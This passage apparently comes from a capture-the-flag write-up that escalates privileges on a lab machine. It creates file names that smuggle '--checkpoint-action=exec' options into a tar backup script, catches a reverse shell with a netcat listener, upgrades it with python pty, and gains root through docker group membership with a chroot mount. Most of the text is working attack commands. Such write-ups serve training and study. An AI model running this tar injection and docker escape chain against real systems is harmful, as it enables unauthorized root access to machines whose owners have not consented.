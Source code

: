 Now, the following two commands:
```bash
echo "" > "--checkpoint-action=exec=sh shell.sh" && echo "" > --checkpoint=1
```

All left to do is:

Give "shell.sh" and "backup.tar" all permissions to avoid errors:
```bash
chmod 777 shell.sh && chmod 777 backup.tar
```

![image](https://user-images.githubusercontent.com/114166939/232228562-a7e09ea8-a673-4754-b6ed-a24af9bfc997.png)

Establish netcat listener on the attacker machine:
```bash
nc -lnvp 6666
```

And run the the "backup.sh" bash script as "michael" user by using the command:
```bash
sudo -u michael ./backup.sh
```

Got a shell as "michael" user!

![image](https://user-images.githubusercontent.com/114166939/232228748-3020a9de-dc7a-43cf-bd13-ab527a7f1501.png)

First, I'll upgarde this sh shell with python to get a bash shell:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

As a user I don't know. I'll check what groups and permissions this user has:
```bash
id
```

Results:

![image](https://user-images.githubusercontent.com/114166939/232228827-e4e23072-e09e-436d-ab8e-f5c2b3f560c4.png)


```bash
sudo -l
```

No results because password needed.

I see this user is a member of the "docker" group!

Quick peek at GTFOBins under "docker -> Shell" will show simple command to get a privilege escalation and shell as a root:

![image](https://user-images.githubusercontent.com/114166939/232229187-a8b1b2cc-d944-467e-8c2b-b6bc9f099a06.png)

Let's use this command on michael's shell:
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
